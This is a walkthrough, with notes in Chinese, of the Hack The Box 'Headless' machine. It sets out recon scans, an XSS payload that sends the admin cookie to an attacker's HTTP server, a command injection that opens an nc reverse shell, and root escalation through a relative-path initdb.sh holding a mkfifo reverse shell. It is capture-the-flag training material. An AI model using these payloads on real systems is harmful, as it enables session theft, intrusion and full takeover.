

###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Headless
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.195.37 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.195.37:22
Open 10.129.195.37:5000

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXBmWeZYo1LR50JTs8iKyICHT76i7+fBPoeiKDXRhzjsfMWruwHrosHoSwRxiqUdaJYLwJgWOv+jFAB45nRQHw=
|   256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkBEMKoic0Bx5yLYG4DIT5G797lraNQsG5dtyZUl9nW
5000/tcp open  upnp?   syn-ack
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
```

目錄掃描5000port
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://10.129.195.37:5000/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/big.txt

dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 295ms]
support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 286ms]
:: Progress: [20476/20476] :: Job [1/1] :: 35 req/sec :: Duration: [0:05:32] :: Errors: 0 ::
```

前往support頁面，嘗試在`Message`使用XSS，成功可以利用`burpsuite`來看看能不能拿`cookie`之後使用`CSRF`
```
POST /support HTTP/1.1

Host: 10.129.50.142:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: http://10.129.50.142:5000
Connection: keep-alive
Referer: http://10.129.50.142:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=admin&lname=admin&email=admin%40gmail.com&phone=admin&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

發現`cookie`這邊有`is_admin`，嘗試在`Referer`嘗試竊取[cookies](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)，開啟`http server`
```
┌──(kali㉿kali)-[~/htb]
└─$ python3 -m http.server 8000

POST /support HTTP/1.1

Host: 10.129.50.142:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: http://10.129.50.142:5000
Connection: keep-alive
Referer: <script>var i=new Image(); i.src="http://10.10.14.55:8000/?cookie="+btoa(document.cookie);</script>
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=admin&lname=admin&email=admin%40gmail.com&phone=admin&message=<script>var i=new Image(); i.src="http://10.10.14.55:8000/?cookie="+btoa(document.cookie);</script>
```

可得`cookies`，把他丟`base64 decode`
```
┌──(kali㉿kali)-[~/htb]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.50.142 - - [27/Aug/2024 22:28:48] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

┌──(kali㉿kali)-[~/htb]
└─$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

進剛剛`http://10.129.50.142:5000/dashboard`頁面`F12`將cookie換掉之後按右上角圈圈之後重整



之後可以跳到`Administrator Dashboard`，一樣burp攔截`Generate Report`
```
POST /dashboard HTTP/1.1

Host: 10.129.50.142:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.50.142:5000
Connection: keep-alive
Referer: http://10.129.50.142:5000/dashboard
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

date=2023-09-15
```

嘗試`Command Injection`，確認可以之後塞reverse
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

POST /dashboard HTTP/1.1

Host: 10.129.50.142:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://10.129.50.142:5000
Connection: keep-alive
Referer: http://10.129.50.142:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15;nc 10.10.14.55 4444 -e /bin/sh
```

得shell之後可在`/home/dvir`得user.txt
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

dvir@headless:~$ cat user.txt
7cda571ec774c77c769c0b0d5bb9a80c
```

查看`sudo -l`，他說可以執行`/usr/bin/syscheck`，再繼續查看`/usr/bin/syscheck`
```
dvir@headless:/tmp$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
    
dvir@headless:/tmp$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0    
```

發現他會需要`initdb.sh`，把reverse塞到`initdb.sh`之後開nc執行
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4445

dvir@headless:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.55 4445 >/tmp/f" >> initdb.sh

dvir@headless:/tmp$ chmod +x initdb.sh

dvir@headless:/tmp$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.03, 0.01, 0.00
Database service is not running. Starting it...
```

得root之後，在/root得root.txt
```
# python3 -c 'import pty; pty.spawn("/bin/bash")'

root@headless:~# cat root.txt
d3872f28bb666a997b4f72914b8c9f63
root@headless:~# 
```